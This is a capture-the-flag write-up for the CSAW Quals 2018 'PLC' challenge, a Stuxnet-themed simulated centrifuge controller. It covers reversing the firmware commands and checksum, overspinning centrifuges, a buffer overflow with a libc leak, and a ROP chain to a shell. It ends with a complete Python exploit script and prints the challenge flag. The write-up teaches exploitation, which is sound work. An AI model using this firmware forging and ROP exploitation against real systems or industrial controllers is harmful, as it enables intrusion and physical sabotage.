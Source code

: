 ```yaml
---
layout: post
title: CSAW Quals 2018 | PLC Writeup
author: adamt
---
```


What a challenge this was.
Our team collectively spent over 40 hours solving it, however unfortunately we couldn't solve it until after the CTF had ended ;(
enjoy the flag `flag{1s_thi5_th3_n3w_stuxn3t_0r_jus7_4_w4r_g4m3}`

The challenge was a twist on the well known stuxnet virus. It contained 6 sections that built on each other and was a generally fun and interesting challenge.

## Step 1
### Execute the default firmware
By looking at the provide source code we can see that by entering `E` the program will execute the currently loaded firmware
        
## Step 2
### Create our own custom checksummed firmware
This was one of the harder/longer parts of the challenge. To solve this you had to reverse engineer both the custom `shellcode` used by the centrifuge system, and understand what each command does, as well as reverse engineer the checksum algorithm to digitally sign our own payloads.

Through spending hours stairing at the debugger and following the code flows of different inputs we managed to discover the following commands the firmware would accept
<br />

* Reset RPM - 0x30
* Clear Material - 0x31
* Write one char to new material - 0x32 `letter`
* RPM Override off = 0x33 0x30
* RPM Override on = 0x33 0x31
* Decrement RPM = 0x36
* Increment RPM = 0x37
* DEBUG ON = 0x38 0x31
* DEBUG OFF = 0x38 0x30
* EXIT = 0x39

And for custom checksum, we ported the assembler code directly into python instead of trying to understand and recreate it from scratch.

Also a firmware must be 0x400 characters long and in the format of
'FW' + checksum + version + commands
Where the version is 2 numbers (eg 12)

## Step 3
### Exceed Normal Centrifuge Speeds
With the knowledge gained from above, to spin the centrifuges to destruction, we enabled the RPM override, and then calling Increment RPM until the RPM was over a certain threshold. This was pretty trivial with our knowledge gained from the previous step.

## Step 4
### Specify some "extra" dangerous materials
This part of the challenge stumped me for over an hour, I didn't know what it meant by `"extra" dangerous materials`.
Using the knowledge from above we could rename the materials used in the centrifuge by converting a string "HELLO" > "2H2E2L2L2O". Simplying putting the digit 2 between each char.
We tried renaming the material to all sorts of things (yes i did google `most dangerous nuclear material` and other interesting items and yes I'm definetely on a watchlist somewhere)
List of things we tried

* Uranium
* extra
* "extra"
* "extra" dangerous

Eventually someone in our team asked if we had tried specifying an extra long string....
nuff said, specify a string with like 100 character length and we get the points (no points just a tick yay)


## Step 5
### JK lol get flag and cat shell
This is the part where it all stopped. <br />
We had to put everything we had just learnt about this program, and try to somehow get shell.<br />

I forgot to mention a few things..

* PIE/ASLR/NX Are enabled
* Execve in LIBC is corrupted so we can't just do a simple ret2libc
* So we must somehow create a ROP chain that calls the execve syscall

We found that we were able to control RIP through a lethal `call edx` gadget. However this would only give us a single gadget in which we had to get shell.<br />
The trick is to pivot the shell through a nice `add rsp` gadget into a different buffer we control. <br /> <br />

The two buffers we control are 
* The original terminal which has a 32 character size
* The name buffer we control with our command inputs

We can also get a leak because write after our name buffer, is a pointer to an address in libc. So if we fill our buffer with printable characters, we can print out the status/name of our centrifuge, and get an address leak. <br />

With a libc leak the rop chain is trivial

* pop rax
* 0x3b
* pop rdi
* 0
* pop rdx
* 0
* syscall
* shell xx

So if we place the rop chain in our main buffer after "E". The program only looks at the E and called execute, which will then execute our pivot gadget and pivot to our rop chain after the letter "E". perfect.

lovely

> 14 hours of fun

My final python script

```python
from interact import *
import struct
import time


# globals
WRITE = "2"
RPM_ADD = "7"
EXIT = "9"
RPM_OVERRIDE = "31"
DEBUG = "81"

p = Process()
time.sleep(5) #bugs?
# helper functions
def unpack(data, fmt="<Q"):
    return struct.unpack(fmt, data.ljust(8, "\x00"))[0]


def pack(data, fmt="<Q"):
    return struct.pack(fmt, data)


def toWriteCommand(string):
   return WRITE + WRITE.join(list(string))

def generate_checksum(string):
    count = 2
    scount = 0
    rbp10 = 0
    while count <= 0x1ff:
        eax = rbp10
        eax <<= 0xc
        edx = eax

        eax = rbp10
        eax >>= 0x4
        eax |= edx

        rbp10 = eax + (count & 0xffff)

        rbp10 &= 0xFFFF
        eax = ord(string[scount]) + 16*16*ord(string[scount+1])
        rbp10 ^= eax
        count += 1
        scount += 2

    return chr(rbp10 & 0xff) + chr(rbp10 >> 8)

def gen_fw(rpm, overflow):
    commands =  "12" # version
    commands += DEBUG
    commands += RPM_OVERRIDE # so no issues
    commands += toWriteCommand(overflow) # material cmd
    commands += (rpm * RPM_ADD) #overflow rpm
    commands += EXIT
    commands = commands.ljust(0x400 - 4, '\x00')
    # Checksum the above commands
    checksum = generate_checksum(commands)

    # return completed firmware
    return "FW" + checksum + commands

p.sendline("U") #upload firewarm
fw = gen_fw(63, "A" * 68 + "XXXXXXXX")
p.send(fw)
p.sendline("E") # execute firwware
p.sendline("S") # Show status for libc leak


print p.readuntil("XXXXXXXX") # Read until end of our payload
leak = unpack(p.readuntil("\n").strip())
libc_base = leak - 0x36ec0 #leak address and calc offset to base of libc
print "Libc leak ", hex(libc_base)


pivot = pack(libc_base + 0xc96a6) # add rsp, 0x38

rop = "A" * 15
rop += pack(libc_base + 0x21102) #pop rdi
rop += pack(libc_base + 0x18cd57) #binsh

rop += pack(libc_base + 0x33544) #pop rax
rop += pack(0x3b) #execve syscall

rop += pack(libc_base + 0x202e8) #pop rsi
rop += pack(0)

rop += pack(libc_base + 0x1b92) #pop rdx
rop += pack(0)

rop += pack(libc_base + 0xbc375) #syscall


p.sendline("U") #upload firmware
fw = gen_fw(80, ("X" * 68) + pivot)
p.send(fw)
p.sendline("E" + rop)

p.interactive()
```


